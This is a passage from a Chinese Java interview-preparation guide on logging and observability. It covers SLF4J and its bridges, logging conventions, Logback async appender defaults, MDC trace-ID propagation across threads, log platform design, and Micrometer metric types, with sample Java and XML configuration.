








# 32 · 日志与可观测性

> 适用岗位：Java 资深开发（重点：日志规范、异步日志、MDC 与链路传递、指标类型）、Java 架构师（重点：可观测性体系、链路追踪、OpenTelemetry、告警设计）
> 版本基线：SLF4J 2.0、Logback 1.5、Log4j2 2.25、Micrometer 1.16、Micrometer Tracing 1.6、OpenTelemetry Java 1.55（以上均为 Spring Boot 4.0.4 依赖管理中的版本，已核对本机的 `spring-boot-dependencies-4.0.4.pom`）
> 事实核对：
> - Logback 异步日志的默认参数已反编译本机 logback-core 1.5.32 核对；
> - SLF4J 2 的提供者机制已核对本机 slf4j-api 2.0.17；
> - Spring Boot 结构化日志的配置项已核对 spring-boot 4.0.4 的配置元数据；
> - Spring Boot 4 的可观测性模块来自 [Spring Boot 4.0 迁移指南](https://github.com/spring-projects/spring-boot/wiki/Spring-Boot-4.0-Migration-Guide)；
> - Log4Shell 的影响版本来自 [Apache Log4j 安全公告](https://logging.apache.org/security.html)；
> - `traceparent` 格式来自 [W3C Trace Context 规范](https://www.w3.org/TR/trace-context/)；
> - 告警的燃烧率方法来自 [Google SRE Workbook](https://sre.google/workbook/alerting-on-slos/)；
> - MDC 跨线程传递的代码已在本机运行
> 相关分类：[《26 高可用》](../06-三高与架构/26-高可用.md)（SLA / SLO）、[《31 单元测试》](31-单元测试.md)、[《33 线上问题排查》](33-线上问题排查.md)、[《39 网络安全》](../08-计算机基础/39-网络安全.md)

## 知识地图



## 题目索引

| 编号 | 题目 | 难度 | 层级 |
| --- | --- | --- | --- |
| 32-01 | SLF4J、Logback、Log4j2 是什么关系？为什么要用日志门面？ | ★★ | 资深 |
| 32-02 | 日志怎么打才规范？ | ★★ | 资深 |
| 32-03 | 异步日志怎么配置？有哪些坑？ | ★★★ | 资深 |
| 32-04 | MDC 是什么？traceId 在线程池、异步、MQ 中怎么传递？ | ★★★ | 资深 |
| 32-05 | 日志量太大怎么办？日志平台怎么设计？ | ★★ | 架构师 |
| 32-06 | 可观测性的三大支柱是什么？和传统监控有什么区别？ | ★★ | 资深 / 架构师 |
| 32-07 | Micrometer 有哪些指标类型？百分位为什么不能直接求平均？ | ★★★ | 资深 |
| 32-08 | 指标的标签为什么不能用用户 ID？ | ★★ | 资深 |
| 32-09 | 应该监控哪些指标？什么是 RED、USE 和黄金信号？ | ★★ | 架构师 |
| 32-10 | 分布式链路追踪的原理是什么？ | ★★★ | 资深 / 架构师 |
| 32-11 | 链路追踪怎么采样？头部采样和尾部采样有什么区别？ | ★★ | 架构师 |
| 32-12 | OpenTelemetry 是什么？和 Micrometer、SkyWalking 是什么关系？ | ★★★ | 架构师 |
| 32-13 | 告警怎么设计才不会"狼来了"？ | ★★★ | 架构师 |
| 32-14 | 从零为一个系统搭建可观测性体系，怎么做？ | ★★ | 架构师 |
| 32-15 | Log4Shell 漏洞是怎么回事？给我们什么教训？ | ★★ | 资深 |

---

## 一、日志

### 32-01 SLF4J、Logback、Log4j2 是什么关系？为什么要用日志门面？

> ★★ ｜ 资深 ｜ 高频

**考察意图**：是否理解门面和实现的分离，以及依赖冲突的处理。

**30 秒版回答**

- **SLF4J 是门面**（只有 API），**Logback、Log4j2 是实现**。业务代码只依赖 SLF4J 的 API，底层用哪个实现由依赖和配置决定，更换实现不需要修改代码。这是门面模式的典型应用，见[《30 设计模式》](30-设计模式.md)30-07。
- Spring Boot 默认使用 SLF4J + Logback；换成 Log4j2 时，排除 `spring-boot-starter-logging`，引入 `spring-boot-starter-log4j2`。
- **为什么要用门面**：项目依赖的各种第三方库可能使用不同的日志 API（JCL、JUL、Log4j 1、Log4j2 API）。通过**桥接包**把它们都转到 SLF4J，再统一输出到同一个实现，整个应用只有一套日志配置。

**深入剖析**

| 桥接包 | 作用 |
| --- | --- |
| `jcl-over-slf4j` | 把 Commons Logging 的调用转到 SLF4J。Spring 5、6 使用自带的 `spring-jcl`；Spring 7 改为直接依赖 Commons Logging 1.3（已核对 spring-core 7.0.7 的依赖），它能自动检测 SLF4J 和 Log4j2 API，通常不再需要这个桥接包 |
| `jul-to-slf4j` | 把 JDK 自带的 `java.util.logging` 转到 SLF4J |
| `log4j-to-slf4j` | 把 Log4j2 API 的调用转到 SLF4J |
| `log4j-slf4j2-impl` | 反方向：把 SLF4J 的调用转到 Log4j2 实现 |

以 Spring Boot 默认的 Logback 为例，所有日志 API 最终汇聚到一个实现：



**生产实践 / 踩坑**

- **循环桥接**：同时引入 `log4j-to-slf4j`（Log4j2 → SLF4J）和 `log4j-slf4j2-impl`（SLF4J → Log4j2），调用会在两者之间来回转发。需要按照"所有日志 API 都汇聚到一个实现"的原则检查依赖树。
- **SLF4J 1.x 和 2.x 的绑定方式不同**：
  - 1.x 通过 `StaticLoggerBinder` 类绑定实现；
  - 2.x 改为通过 `ServiceLoader` 查找 `SLF4JServiceProvider`。
  
  所以 slf4j-api 2.x 和只支持 1.x 的旧实现（例如 Logback 1.2）搭配时，找不到提供者，会退回到什么都不输出的 NOP 实现，日志被静默丢弃，只在启动时输出几行提示（"No SLF4J providers were found" "Defaulting to no-operation (NOP) logger implementation"）。找到多个提供者时，也只输出几行提示，然后使用其中一个。这两种情况都容易被忽略，升级后要检查启动日志。

---

### 32-02 日志怎么打才规范？

> ★★ ｜ 资深 ｜ 高频

**考察意图**：日志的工程素养。日志是排查线上问题的第一手资料。

**30 秒版回答**

1. **用占位符，不拼接字符串**：`log.info("order created, orderId={}", orderId)`。日志级别关闭时不会产生拼接的开销；
2. **异常作为最后一个参数传入**，才能打印完整的堆栈：`log.error("pay failed, errorCode={}, orderId={}", errorCode, orderId, e)`。不要写成 `e.getMessage()`，那样会丢失堆栈；
3. **每条日志要有上下文**：关键的业务标识（订单号、用户 ID）、错误码，以及能够串联请求的 traceId（由 MDC 自动输出，见 32-04）；
4. **级别要有明确的含义**：
   - ERROR 表示需要人介入处理，应该能触发告警；
   - INFO 记录关键的业务节点和状态变化；
   - DEBUG 只用于开发调试。
   
   有些团队进一步约定只使用 INFO 和 ERROR 两个级别，让"是否需要告警"的判断更清楚；
5. **不记录敏感信息**：密码、完整的身份证号、银行卡号、手机号要脱敏，令牌和密钥不能出现在日志中；
6. **不要在循环中打日志**，不要打印很大的对象（完整的请求体、大的集合），否则日志量会成倍增加；
7. **同一个异常只记录一次**：要么在捕获的地方记录后处理掉，要么包装后抛出、由上层统一记录。"记录了再抛出"会让同一个错误在日志中出现很多次。

**深入剖析**

```java
// 反例：字符串拼接；只有 message，没有堆栈；缺少业务标识
log.error("pay failed: " + e.getMessage());

// 正例：占位符输出错误码和关键参数，异常作为最后一个参数
log.error("pay failed, errorCode={}, orderId={}, channel={}", errorCode, orderId, channel, e);
```

SLF4J 2 提供了**流式 API**，可以附加键值对，结构化日志会把它们输出成独立的 JSON 字段，便于检索：

```java
log.atInfo()
        .addKeyValue("orderId", orderId)
        .addKeyValue("amountCent", amountCent)
        .log("order paid");
```

---

### 32-03 异步日志怎么配置？有哪些坑？

> ★★★ ｜ 资深 ｜ 高频

**考察意图**：是否理解异步日志的工作方式，以及它在高负载下的行为。

**30 秒版回答**

- **为什么要异步**：同步写日志时，磁盘 IO 发生在业务线程中。磁盘变慢（例如日志盘被打满、IO 抖动）时，所有写日志的业务线程都会被拖慢。
- **Logback 的 `AsyncAppender`**：业务线程把日志事件放进一个阻塞队列就返回，由后台线程写入磁盘。**默认参数**（已反编译 logback-core 1.5.32 核对）：

| 参数 | 默认值 | 含义 |
| --- | --- | --- |
| `queueSize` | 256 | 队列容量 |
| `discardingThreshold` | 队列容量的 1/5 | 队列剩余容量低于这个值时，**直接丢弃 INFO 及以下级别的日志** |
| `neverBlock` | `false` | 队列满时**阻塞业务线程**；设为 `true` 则丢弃 |
| `maxFlushTime` | 1000 毫秒 | 关闭时最多等待多久把队列中的日志写完 |

- **Log4j2 的异步 Logger** 基于 LMAX Disruptor（无锁环形队列），吞吐量更高，队列满时的行为同样可以配置。

**深入剖析**

业务线程调用 `append` 时的判断顺序（已核对 logback-core 1.5.32 的 `AsyncAppenderBase`）：



默认配置下有两个经常被忽略的问题：

1. **高峰期悄悄丢失 INFO 日志**：队列只有 256 个位置，剩余容量不足 1/5（约 51 个）时，INFO 日志被直接丢弃，只保留 WARN 和 ERROR。偏偏在出问题的高峰期，最需要看日志时，日志却不全；
2. **队列满时阻塞业务线程**：后台写入跟不上时，业务线程会阻塞在放入队列的操作上，异步日志退化成了同步，甚至更糟。

根据业务对"日志完整"和"业务不被阻塞"的优先级，明确地做出选择：

```xml
<appender name="ASYNC_FILE" class="ch.qos.logback.classic.AsyncAppender">
    <!-- 加大队列，吸收短时间的写入高峰 -->
    <queueSize>8192</queueSize>
    <!-- 0：不按级别提前丢弃，队列快满时 INFO 日志也保留 -->
    <discardingThreshold>0</discardingThreshold>
    <!-- true：队列真正满时丢弃，宁可丢日志，也不阻塞业务线程 -->
    <neverBlock>true</neverBlock>
    <appender-ref ref="FILE"/>
</appender>
```

**生产实践 / 踩坑**

- 异步日志中开启**调用者信息**（类名、方法名、行号，`includeCallerData`）的代价很高，因为需要生成堆栈来获取这些信息，默认是关闭的，不要随手打开。
- 应用关闭时队列中还没写完的日志可能丢失，要保证日志系统正常关闭（Spring Boot 会在应用关闭时处理）；被 `kill -9` 强制终止时无法保证。
- ERROR 日志很重要、量又不大，可以单独使用一个同步的 Appender，避免被丢弃。

---

### 32-04 MDC 是什么？traceId 在线程池、异步、MQ 中怎么传递？

> ★★★ ｜ 资深 ｜ 高频

**考察意图**：能否保证一个请求的所有日志都能被同一个 traceId 串起来。

**30 秒版回答**

- **MDC**（Mapped Diagnostic Context）：一个和当前线程绑定的键值对容器（底层是 `ThreadLocal`）。放入 `traceId` 之后，日志格式中配置 `%X{traceId}`，这个线程打印的每一行日志都会自动带上它。
- **问题**：MDC 跟着线程走，一旦**换了线程**，上下文就丢了：
  - **线程池**：提交任务时复制 MDC，执行时设置，执行完恢复。Spring 中用 `TaskDecorator` 实现，Spring Boot 自动配置的线程池会自动使用容器中的 `TaskDecorator` Bean（已核对 Spring Boot 4.0.4）；
  - **`CompletableFuture`**：显式传入包装过的 `Executor`；不传 `Executor` 时使用公共的 `ForkJoinPool`，上下文会丢失；
  - **MQ**：发送时把 traceId 放进**消息头**，消费时从消息头取出来，设置到 MDC；
  - **RPC / HTTP**：放在请求头中传递。
- 接入了 Micrometer Tracing 或 OpenTelemetry 后，traceId 和 spanId 由追踪框架维护并自动写入 MDC；跨线程传递可以使用 Spring 的 `ContextPropagatingTaskDecorator`（基于 Micrometer 的 context-propagation 库），HTTP、MQ 客户端也有现成的自动埋点。

**深入剖析**

手写的 MDC 传递（已在本机运行：普通线程池中读到的 traceId 为 `null`，经过包装后读到 `t-1001`，任务执行完恢复为 `null`，没有泄漏到下一个任务）：

```java
/** 把提交任务线程的 MDC 复制到执行线程，执行完恢复执行线程原来的 MDC */
public class MdcTaskDecorator implements TaskDecorator {

    @Override
    public Runnable decorate(Runnable runnable) {
        Map<String, String> submitterContext = MDC.getCopyOfContextMap();
        return () -> {
            Map<String, String> previous = MDC.getCopyOfContextMap();
            setOrClear(submitterContext);
            try {
                runnable.run();
            } finally {
                setOrClear(previous);
            }
        };
    }

    private static void setOrClear(Map<String, String> context) {
        if (context == null) {
            MDC.clear();
        } else {
            MDC.setContextMap(context);
        }
    }
}
```



**`finally` 中的恢复不能省**：线程池中的线程会被复用。如果不清理，上一个任务的 traceId 会"泄漏"到下一个任务的日志中，排查问题时会把两个不相关的请求混在一起，比没有 traceId 更糟。

---

### 32-05 日志量太大怎么办？日志平台怎么设计？

> ★★ ｜ 架构师 ｜ 中频

**考察意图**：日志的成本控制和平台化。

**30 秒版回答**

- **典型的日志平台**：
  1. 应用把日志写到本地文件（或标准输出）；
  2. 采集器（Filebeat、Fluent Bit 等）读取并发送；
  3. 经过 Kafka 缓冲；
  4. 写入存储和检索系统：Elasticsearch（全文检索，功能强，成本高），或者 Loki（只对标签建索引，成本低，适合按服务、traceId 检索）。



- **结构化日志**：输出 JSON 格式，字段（时间、级别、traceId、服务名、业务字段）可以直接检索和统计，不需要用正则表达式解析。Spring Boot 3.4 起内置了结构化日志，`logging.structured.format.console` 和 `logging.structured.format.file` 可以选择 `ecs`、`gelf`、`logstash` 三种格式（已核对 Spring Boot 4.0.4）。
- **控制日志量**：
  - **从源头减少**：去掉没有价值的日志，例如每次请求都打印完整的入参和出参；
  - **分级保留**：ERROR 日志保留更久，INFO 日志保留几天，DEBUG 日志不进入日志平台；
  - **采样**：对高频而且重复的日志按比例采样；
  - **冷热分层**：最近几天的日志放在高性能存储中，更早的日志转到对象存储归档。

**架构师加分点**

- 日志、指标、链路追踪的分工要清楚：**统计类的问题**（错误率、耗时分布）用指标回答，不要靠扫描日志来统计；**单个请求发生了什么**，用链路追踪和日志回答。很多日志平台成本失控，正是因为把日志当成了指标来用。

---
## 二、指标

### 32-06 可观测性的三大支柱是什么？和传统监控有什么区别？

> ★★ ｜ 资深 / 架构师 ｜ 高频

**考察意图**：对可观测性的整体理解，而不是只会说出三个名词。

**30 秒版回答**

| 支柱 | 回答的问题 | 特点 |
| --- | --- | --- |
| **指标**（Metrics） | 整体情况怎么样？有没有异常？ | 聚合后的数值，存储成本低，适合做大盘和告警 |
| **链路追踪**（Traces） | 一个请求经过了哪些服务？慢在哪一步？ | 按请求记录调用关系和耗时，通常需要采样 |
| **日志**（Logs） | 某个时刻具体发生了什么？ | 细节最丰富，量最大，成本最高 |

- **传统监控**回答的是"**已知的问题**"：事先定义好要看的指标和阈值，例如 CPU 超过 80% 告警。
- **可观测性**强调能回答"**事先没想到的问题**"：出现一种从没见过的故障时，能通过数据定位原因，不需要临时加代码、重新发布。
- 关键在于**三者能够关联**：
  - 从告警的指标找到对应时间段内的慢请求链路（指标中的 Exemplar 可以直接带上 traceId）；
  - 从链路找到对应的日志（日志中带有 traceId）。
  
  三种数据各自独立、无法关联时，排查问题仍然要靠经验和猜测。
- 持续性能剖析（Profiling）正在成为第四种信号，用于回答"CPU 和内存具体花在哪些代码上"，见[《33 线上问题排查》](33-线上问题排查.md)。

---

### 32-07 Micrometer 有哪些指标类型？百分位为什么不能直接求平均？

> ★★★ ｜ 资深 ｜ 高频

**考察意图**：能否正确使用指标类型，以及是否理解百分位聚合的陷阱。

**30 秒版回答**

- Micrometer 是 Java 的**指标门面**（相当于指标领域的 SLF4J），同一套埋点代码可以输出到 Prometheus、OTLP、Datadog 等不同的后端。
- 常用的指标类型：

| 类型 | 含义 | 例子 |
| --- | --- | --- |
| `Counter` | 只增不减的计数 | 请求数、下单数、错误数 |
| `Gauge` | 当前的瞬时值，可增可减 | 队列长度、连接池活跃连接数、缓存大小 |
| `Timer` | 记录耗时和次数，可以输出分布 | 接口耗时 |
